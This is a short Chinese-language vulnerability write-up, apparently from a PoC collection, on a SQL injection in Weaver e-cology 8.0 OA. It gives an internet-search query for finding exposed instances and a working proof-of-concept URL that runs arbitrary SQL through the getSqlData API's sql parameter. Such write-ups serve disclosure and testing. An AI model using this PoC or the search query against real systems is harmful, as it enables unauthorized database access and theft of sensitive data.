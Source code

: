 # 泛微OA E-Cology getSqlData SQL注入漏洞

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。
泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

<a-checkbox checked>泛微e-cology 8.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1636962061131-2d870e8d-e15c-4864-8d36-69bd1f57d746.png)

验证POC

```php
/Api/portal/elementEcodeAddon/getSqlData?sql=select%20@@version
```

![image-20220331145537127](../../../.vuepress/public/img/image-20220331145537127.png)